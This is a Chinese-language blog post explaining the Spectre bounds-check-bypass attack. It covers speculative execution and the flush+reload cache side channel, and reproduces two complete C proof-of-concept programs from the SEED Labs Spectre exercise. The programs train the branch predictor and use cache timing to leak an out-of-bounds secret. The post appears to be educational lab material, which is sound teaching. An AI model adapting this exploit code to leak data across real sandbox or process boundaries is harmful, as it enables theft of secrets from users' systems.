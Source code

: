 ```yaml
---
title: Spectre Attack
date: 2019.10.5
catalog: true
subtitle: 
header-img: 
top: false
tags: 
categories: Security 
---
```

## Spectre攻击概述
Spectre攻击是一种利用cpu在执行代码时的漏洞，诱使victim程序执行其本不该执行的代码导致数据的泄漏，在2017年被发现直到2018年才会公开，影响了大量的使用Intel，ARM，AMD芯片的设备。
## 攻击涉及主要技术
### CPU预测执行
由于现在CPU的频率提高越来越困难（频率越高，导致温度变高，容易烧坏芯片），CPU普遍采用两中技术来提高cpu执行代码的速度，一种是乱序执行，通过将相互独立的指令并行执行来提高执行的速度（被用在meltdown攻击中）。另一种就是预测执行，它的应用场景是cpu在应用乱序执行机制执行代码时，当遇到一些跳转时（比如条件跳转，间接跳转），如果跳转的产生需要依赖与一些未完成的指令，导致不能马上执行跳转，此时，cpu便会执行预测执行，预测跳转的目的地并继续往下执行。
### 基于缓存的侧信道攻击
flush+reload方法是Yuval Yarom和Katrina Falkner两位大牛在2014年的usenix上提出。程序在访问某一地址内存时，如果该内存之前被访问过，则会放在缓存中，则此次访问会产生一个缓存命中，导致访问速度比一般访问内存快很多。这很大程度提高了计算机访问内存的速度，但也给攻击者带来了可趁之机。攻击者可以扫描内存，对每一次的访问内存进行计时，根据缓存命中与否的访问时间上的差异，可以确定该内存是否被访问过。这个方法针对不同的场景有不同的用法。那两位作者在他们的论文中用这个方法获得了rsa算法的密钥。Spectre用这个方法读取了相关内存的值，具体的会在下面介绍。
## Spectre攻击流程
Spectre攻击在论文中实施了两种攻击，一种是针对条件跳转的，一种是针对间接跳转的。由于间接跳转的比较复杂，本文就对条件跳转的攻击进行讨论。
我们先来看一下代码
```
if(x<array1_size){
    y=array2[array1[x]*4096];
}
 
```
按照程序的正常运行，只有当x满足条件x< array1_size，时，程序才会执行下面的语句，但是当攻击者可以控制预测执行时，攻击者就可以在x> array1_size的情况下使程序执行下面的语句。大家有兴趣的可以用一下代码尝试，该代码取自seedlab中的spectreattack实验。
```
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

int size = 10;
uint8_t array[256*4096];
uint8_t temp = 0;
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void flushSideChannel()
{
  int i;
  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void reloadSideChannel()
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
    addr = &array[i*4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD){
	printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
        printf("The Secret = %d.\n",i);
    }
  } 
}

void victim(size_t x)
{
  if (x < size) {  
  temp = array[x * 4096 + DELTA];  
  }
}

int main() {
  int i;
  // FLUSH the probing array
  flushSideChannel();
  // Train the CPU to take the true branch inside victim()
  for (i = 0; i < 10; i++) {   
   _mm_clflush(&size); 
   victim(i);
  }
  // Exploit the out-of-order execution
  _mm_clflush(&size);
  for (i = 0; i < 256; i++)
   _mm_clflush(&array[i*4096 + DELTA]); 
  victim(97);  
  // RELOAD the probing array
  reloadSideChannel();
  return (0); 
}
```
在上面的victim程序中，x假设是一个我们想要访问的值，之所以要乘4096是为了相邻两个x值之间的距离，防止prefetch机制。DELTA是为了防止一个在i=0时，程序在访问本地变量的时候，cache会一个line大小的数据（包括array[0]）全放入缓存，导致flush过程的失败。

控制预测执行成功后，我们模拟一个应用场景，比如说在浏览器浏览网页时，不同网页是在一个进程中的，而进程内的隔离一般是通过sandbox技术实现，在sandbox中，常见的隔离手段是通过边界检查，例如下面的代码：
```
if (address_want_to_access<permitted_address_size){
  return memory[address_want_to_access]
}
```
试想，如果我们能够绕过边界检查，把我们要读取的内存作为内存地址放在缓存中，然后再用flush+reload技术获得缓存中存储的内存地址，这样一顿操作后，我们是不是就能读取想要的数据了？
我们来看如下代码片段，我们假设我们已经训练好预测执行，victim函数是一个边界检查函数，x是我们想要读取的内存地址，我们调用victim函数并将结果放到数组中进行运算，这是为了将数据能够泄漏到缓存中，使得我们能用flush+reload技术去读取想要读取的数据。
```
uint8_t victim(x){

  if(x<buffer_size){
    return buffer[x]
  }else{
    return 0
  }
}

int main(){
  x=address_want_to_read;
  s=victim(x);               //读取指定数据
  array[s*4096+DELTA]+=99;//为了访问内存，将数据泄漏到缓存中
}
```
最后附上一个seedlab上spectreattack的一个程序代码
```
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

unsigned int buffer_size = 10;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9}; 
uint8_t temp = 0;
char *secret = "Some Secret Value";   
uint8_t array[256*4096];

#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

// Sandbox Function
uint8_t restrictedAccess(size_t x)
{
  if (x < buffer_size) {
     return buffer[x];
  } else {
     return 0;
  } 
}

void flushSideChannel()
{
  int i;
  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void reloadSideChannel()
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
    addr = &array[i*4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD){
	printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
        printf("The Secret = %d.\n",i);
    }
  } 
}
void spectreAttack(size_t larger_x)
{
  int i;
  uint8_t s;
  volatile int z;
  // Train the CPU to take the true branch inside restrictedAccess().
  for (i = 0; i < 10; i++) { 
   _mm_clflush(&buffer_size);
   restrictedAccess(i); 
  }
  // Flush buffer_size and array[] from the cache.
  _mm_clflush(&buffer_size);
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++) { }
  // Ask restrictedAccess() to return the secret in out-of-order execution. 
  s = restrictedAccess(larger_x);  
  array[s*4096 + DELTA] += 88;  
}

int main() {
  flushSideChannel();
  size_t larger_x = (size_t)(secret - (char*)buffer);  
  spectreAttack(larger_x);
  reloadSideChannel();
  return (0);
}
```
[关于seedlab的spectre attack详细介绍请看](https://seedsecuritylabs.org/Labs_16.04/PDF/Spectre_Attack.pdf)

以上就是spectre的基本思想，论述的不清楚的地方请大家多多见谅,欢迎大家与我一起交流学习